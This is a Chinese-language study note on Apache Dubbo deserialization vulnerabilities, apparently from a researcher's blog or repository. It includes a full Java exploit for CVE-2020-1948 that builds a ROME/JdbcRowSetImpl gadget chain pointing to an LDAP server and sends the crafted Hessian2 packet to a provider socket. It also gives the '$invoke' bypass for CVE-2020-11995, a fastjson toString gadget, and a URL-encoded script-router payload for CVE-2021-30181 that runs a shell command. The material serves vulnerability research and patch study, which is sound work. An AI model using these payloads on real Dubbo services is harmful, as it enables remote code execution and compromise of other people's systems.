

在学习之前首先看一下这篇文章:https://www.anquanke.com/post/id/197658#h2-0

简单了解`server`与`cilent`的通信流程,以及一些传输协议

然后看一下` hessian2反序列化`,反序列化利用都是通过动态掉用,如java反序列化会触发`readObject`,`fastjson`反序列化会触发一些`getter,setter`,`hessian2`在反序列化时会掉用参数最少的`construct`,而且参数要为基础类型,不然就会抛出异常报错,这让其利用起来更加困难,不过在反序列化map类时会掉用其put方法让其成为了一个可利用点,`marshalsec`中通过`rome`依赖进行攻击就是这个原理

通信格式:

header：

```
0-7位和8-15位：Magic High和Magic Low，类似java字节码文件里的魔数，用来判断是不是dubbo协议的数据包，就是一个固定的数字
16位：Req/Res：请求还是响应标识。
17位：2way：单向还是双向
18位：Event：是否是事件
19-23位：Serialization 编号
24-31位：status状态
32-95位：id编号
96-127位：body数据长度
128-…位：body
```

body：

```
1.dubboVersion
2.path
3.version
4.methodName
5.methodDesc
6.paramsObject
7.map
```

## CVE-2020-1948

```
2.7.0 <= Dubbo Version <= 2.7.6
2.6.0 <= Dubbo Version <= 2.6.7
Dubbo 所有 2.5.x 版本（官方团队目前已不支持）
```

EXP:

```java
JdbcRowSetImpl rs = new JdbcRowSetImpl();
//todo 此处填写ldap url
rs.setDataSourceName("ldap://127.0.0.1:43658/ExecObject");
rs.setMatchColumn("foo");
Reflections.getField(javax.sql.rowset.BaseRowSet.class, "listeners").set(rs, null);

ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
EqualsBean root = new EqualsBean(ToStringBean.class, item);

HashMap s = new HashMap<>();
Reflections.setFieldValue(s, "size", 2);
Class<?> nodeC;
try {
  nodeC = Class.forName("java.util.HashMap$Node");
}
catch ( ClassNotFoundException e ) {
  nodeC = Class.forName("java.util.HashMap$Entry");
}
Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
nodeCons.setAccessible(true);

Object tbl = Array.newInstance(nodeC, 2);
Array.set(tbl, 0, nodeCons.newInstance(0, root, root, null));
Array.set(tbl, 1, nodeCons.newInstance(0, root, root, null));
Reflections.setFieldValue(s, "table", tbl);

ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

// header.
byte[] header = new byte[16];
// set magic number.
Bytes.short2bytes((short) 0xdabb, header);
// set request and serialization flag.
header[2] = (byte) ((byte) 0x80 | 2);

// set request id.
Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

out.writeUTF("2.0.2");
//todo 此处填写注册中心获取到的service全限定名、版本号、方法名
out.writeUTF("com.threedr3am.learn.server.boot.DemoService");
out.writeUTF("1.0");
out.writeUTF("hello");// out.writeUTF("$invoke");
//todo 方法描述不需要修改，因为此处需要指定map的payload去触发
out.writeUTF("Ljava/util/Map;");
out.writeObject(s);
out.writeObject(new HashMap());

out.flushBuffer();
if (out instanceof Cleanable) {
  ((Cleanable) out).cleanup();
}

Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
byteArrayOutputStream.write(header);
byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());

byte[] bytes = byteArrayOutputStream.toByteArray();

//todo 此处填写被攻击的dubbo服务提供者地址和端口
Socket socket = new Socket("127.0.0.1", 20880);
OutputStream outputStream = socket.getOutputStream();
outputStream.write(bytes);
outputStream.flush();
outputStream.close();
```

## CVE-2020-11995

```
Dubbo 2.7.0 ~ 2.7.8
Dubbo 2.6.0 ~ 2.6.8
Dubbo 所有 2.5.x 版本
```

CVE-2020-1948修复不完善,在修复的时候在经过`readObject`前进行了一个判断



这里面的逻辑是必须让我们的`MethodName`=`$invoke,$invokeAsync,$echo`之一,我们只需要稍微修改一下payload即可绕过

```
out.writeUTF("$invoke")
```

然后我用`2.7.9`时发现后面还加了对参数描述的检测

```java
out.writeUTF("$invoke");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
```

结果发现加上这句之后还是可以绕过?


这里会根据我们传过去的`expectedClass`选择对应的`reader`,这里有两种触发方式

```
//   out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
   out.writeUTF("Ljava/util/Map;");
```

分别是通过`map.put`和输出报错信息的时候触发`toString`                                  


## CVE-2021-25641

https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/#0x00-%E5%89%8D%E8%A8%80

该链是通过`map.put`然后触发`JSONObejct.toString`方法,在学fastjson的时候学到过,当触发`JSONObject.toStrng`的时候会经过一系列的调用从而调用getter,和setter.

那么既然还是触发`map.put`方法,为什么不能用`hessian2`反序列化呢,其实之前也说过了,`hessian2`反序列化java对象的时候是通过参数最少的构造函数(`JavaDeserializer#readObject`),然后再通过反射对字段进行赋值。


反序列化`HotSwappableTargetSource`类时抛出异常


再看一下`kryo`是如何反序列化对象的


在`readClass`中通过`forName`获取到了Class,然后封装到`registration`中


 经过一些配置后,通过`readObject`进行反序列化


将map的key和value反序列化出来后,通过`map.put->putVals->JSON.toStirng()`触发(原本以为这里调用equals方法需要让key.hashcode相等,但是却发现`HotSwappableTargettSource.hashcode`是返回固定类型的,可能这就是为什么这里需要使用`HotSwappableTargettSource`类,该类存在于`Springbot-aop`包中,如果没有的话)


那么既然是通过`readObject`进行反序列化,那么我们用CC链直接打可以吗,这里先加入依赖,然后通过CC5的`payload`打,结果发现我们需要反序列化的类` BadAttributeValueExpException`是jdk自带的,所以并没有使用`JavaSerializer`进行反序列化


先判断是否实现`@DefaultSerializer`,然后从基础类型中找,如果没有找到则返回`FieldSerializer`	


在初始化时加入进来的


而对象的创建则是通过 `instantiator.newInstance`获得,instantiator的获取过程也挺复杂,感觉应该是走不通的,只有很少一些类可以通过


所以这里的利用条件大概就是:

```
非jdk自带的类(包名不为java,javax开头),不是数组,不是枚举类型,有无参构造函数 ->调用readObject进行反序列化
jdk自带类需要在表中
```


### 拓展

fastjson<1.2.49时,我们可以通过`BadAttributeValueExpException`来触发他的`toString`方法

```java
        JSONObject json=new JSONObject();
        json.put("asda",tools.generateTemplatesImpl());
 
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,json);
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("JSON.SER"));
        out.writeObject(poc);
        ObjectInputStream in=new ObjectInputStream(new FileInputStream("JSON.ser"));
        in.readObject();
```

在1.2.49时,jsonObject类重写了readObject方法


重写了`resolveClass`方法,并且进行了`checkAutoType`检查


###  补丁分析

本地以2.7.9版本测试。

在高版本中已将com.esotericsoftware:kryo依赖去掉了，在使用Kryo序列化器进行反序列化获取KryoObjectInput对象时会报找不到KryoException类的错误：


添加上对应的依赖：

```
<!-- https://mvnrepository.com/artifact/com.esotericsoftware/kryo -->
      <dependency>
          <groupId>com.esotericsoftware</groupId>
          <artifactId>kryo</artifactId>
          <version>4.0.2</version>
      </dependency>

      <!-- https://mvnrepository.com/artifact/de.javakaffee/kryo-serializers -->
      <dependency>
          <groupId>de.javakaffee</groupId>
          <artifactId>kryo-serializers</artifactId>
          <version>0.43</version>
      </dependency>
```

其实就是CVE-2020-1948的补丁过滤拦截了：


而且，自带的Fastjson版本为1.2.70，AutoType会自动拦截掉TemplatesImpl类。

## CVE-2021-30179

###  影响版本

```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)
```

泛化引用:https://xie.infoq.cn/article/bf3a4a66a770a95382722013d

https://developer.aliyun.com/article/724533#slide-0

```
Apache Dubbo默认支持泛化引用由服务端API接口暴露的所有方法，这些调用由GenericFilter处理。GenericFilter将根据客户端提供的接口名、方法名、方法参数类型列表，根据反射机制获取对应的方法，再根据客户端提供的反序列化方式将参数进行反序列化成pojo对象。

也就是说需要知道注册中心注册的接口名，方法名，才可以配合攻击。
```


## CVE-2021-30181

https://articles.zsxq.com/id_28iczv3uhbtk.html

没怎么看懂。。。

```
script%3A%2F%2F127.0.0.1%2Fcom.threedr3am.learn.server.boot.DemoService%3Fapplication%3Ddubbo-consumer%26category%3Drouters%26check%3Dfalse%26dubbo%3D2.0.2%26init%3Dfalse%26interface%3Dcom.threedr3am.learn.server.boot.DemoService%26metadata-type%3Dremote%26methods%3Dhello%26pid%3D53953%26qos.enable%3Dfalse%26release%3D2.7.7%26revision%3D1.0%26side%3Dconsumer%26sticky%3Dfalse%26timestamp%3D1622381389749%26version%3D1.0%26route%3Dscript%26type%3Djavascript%26rule%3Ds%253D%255B3%255D%253Bs%255B0%255D%253D'%252Fbin%252Fbash'%253Bs%255B1%255D%253D'-c'%253Bs%255B2%255D%253D'open%2520-a%2520calculator'%253Bjava.lang.Runtime.getRuntime().exec(s)%253B
```

## Dubbo反序列化RCE利用之新拓展面 - Dubbo Rouge攻击客户端

https://xz.aliyun.com/t/7354

很骚,将自己的地址发送给注册中心,客户端请求注册中心后会主动连接我们的服务器,然后我们返回恶意的序列化数据给客户端,客户端反序列化触发。并且在我们的地址中可以设置反序列化方式,设置为java的话可以增大攻击面积

一个英文总结:

https://securitylab.github.com/advisories/GHSL-2021-034_043-apache-dubbo/  感觉写了挺多的,但是我看不懂,先收藏一下

### CVE-2021-43297

https://paper.seebug.org/1814/

### Dubbo 2.7.8多个远程代码执行漏洞

https://xz.aliyun.com/t/8917

刚学完就看到了jiang师傅出了一个总结https://xz.aliyun.com/t/10916

